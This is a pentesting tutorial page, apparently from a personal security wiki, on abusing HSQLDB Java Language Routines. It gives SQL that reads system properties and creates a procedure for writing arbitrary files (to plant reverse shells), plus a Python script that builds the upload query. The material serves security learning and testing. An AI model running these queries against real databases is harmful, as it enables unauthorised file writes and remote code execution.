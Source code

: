 ```yaml
---
title: Pwning HSQLDB
tags:
  - advanced
  - web-app
  - pentesting
  - hsqldb
  - java
  - sql
---
```


## What is HSQLDB?

[Hyper SQL Database (HSQLDB)](https://en.wikipedia.org/wiki/HSQLDB) is a
relational database management system written in Java - you might occasionally
come across it. It's cross-platform, lightweight, and has a bunch of great
features like being able to call static Java methods in the Java Runtime
Environment's (JRE) class path. What's more to love?

## Calling Java Language Routines in HSQLDB

In HSQLDB,
[Java Language Routines (JRTs)](https://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines)
are SQL-Invoked Routines, i.e. functions or procedures, that call methods in the
classpath of the JRE. With JRTs, we can define these SQL functions and pass
parameters to these methods invocations. JRTs that invoke methods that return
values are called _functions_. JRTs that invoke methods that return _void_ are
called _procedures_.

### Reconnaissance

So, I keep mentioning the classpath. What is it? Like `PATH`, it's a path of
`JAR` files currently loaded in the JRE of the HSQLDB instance. Like with
[[pwning-serialization|pwning Java serialization]], we need to know what
gadgets, i.e. static methods, are available for abuse. We can execute the
following query in HSQLDB to create a function that invokes the Java
`getProperty` method, which we'll use to expose the contents of the classpath:

```sql
 CREATE FUNCTION GetSystemProperty(IN key VARCHAR) RETURNS VARCHAR
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

And the following query exposes the classpath:

```sql
VALUES(GetSystemProperty('java.class.path'))
```

Another useful query, the following query exposes the the current directory
HSQLDB is executing from:

```sql
VALUES(GetSystemProperty('user.dir'))
```

### Uploading files

The juicy stuff. We can create a procedure with the following HSQLDB query,
using the `JavaUtils.writeBytesToFilename` method to write a bytes object to a
file. This enables us to do great things like upload Java reverse shell
payloads.

```sql
CREATE PROCEDURE WriteBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

The above procedure has two parameters, `paramString` which is the filename we
wish to write to, and `paramArrayOfByte` which is the byte array of our file
we're going to upload. How do we use it? An example invocation is provided
below:

```sql
CALL WriteBytesToFilename('{DEST}', CAST('{PAYLOAD}' as VARBINARY(1024)))
```

Where `DEST` is where we want to write the file, and `PAYLOAD` is the file's
contents in hex. "How do I get the contents of my file in hex?", you say. The
following Python script will convert a file specified by `filepath` to the
correct format and will generate a payload that uploads the file to the
specified `dest`:

```python
from argparse import ArgumentParser

WRITE_BYTES_TO_FILENAME_QUERY = """CALL WriteBytesToFilename('{dest}', CAST('{payload}' as VARBINARY(1024)))"""


class Solution:
    def __init__(self, filepath: str, dest: str) -> None:
        self.filepath, self.dest = filepath, dest

    def solve(self) -> None:
        payload = None
        with open(self.filepath, "rb") as file:
            payload = file.read().hex()

        print(WRITE_BYTES_TO_FILENAME_QUERY.format(dest=self.dest, payload=payload))


def main():
    parser = ArgumentParser()
    parser.add_argument("-f", "--filepath", dest="filepath")
    parser.add_argument("-d", "--dest", dest="dest")
    args = parser.parse_args()
    s = Solution(args.filepath, args.dest)
    s.solve()


if __name__ == "__main__":
    main()
```

## Related pages

- [[pwning-postgresql|Pwning PostgreSQL]]
- [[sql-enumeration|SQL enumeration]]
- [[sql-injection|SQL injection]]
